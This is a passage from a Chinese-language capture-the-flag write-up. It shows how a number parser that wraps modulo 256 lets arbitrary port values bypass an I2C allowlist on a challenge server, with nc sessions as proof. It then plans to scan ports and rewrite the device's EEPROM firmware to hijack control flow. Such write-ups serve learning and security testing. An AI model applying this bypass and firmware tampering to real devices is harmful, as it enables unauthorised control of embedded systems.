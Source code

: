 然后经过检查的字符串通过`str_to_uint8`函数转换为一个单字节数，可以看成对这个数进行模256的操作：

```c
uint8_t str_to_uint8(const char *s) {
  uint8_t v = 0;
  while (*s) {
    uint8_t digit = *s++ - '0';
    if (digit >= 10) {
      return 0;
    }
    v = v * 10 + digit;
  }
  return v;
}
```

仍然以101221为例，那么转换完为101221 % 256还是101，和远程进行测试，可见101221和101的效果是一样的，因此应该可以使用这个方法访问到所有的I2C设备：

```c
➜   nc weather.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
Weather Station
? r 101 8
i2c status: transaction completed / ready
22 22 21 35 0 0 0 0 
-end

? r 101221 8    
i2c status: transaction completed / ready
22 22 21 35 0 0 0 0 
-end
```

另外为了方便，我们也可以找到以101开头并且%256为0的数：101120，然后从此数开始递增进行端口爆破扫描：

```python
>>> 101000 % 256
136
>>> 101000 + (256 - 136)
101120
>>> 101120 % 256
0

>>> 101120 + 101
101221
```

## 利用

能读写所有I2C设备又能怎样呢？如果EEPROM也可以通过I2C访问呢？那岂不是可以修改固件代码进行控制流劫持了！

### 扫描I2C设备

代码中的I2C端口是个单字节整数，因此最多只有256个端口，不过I2C总线最大支持的设备是128个：
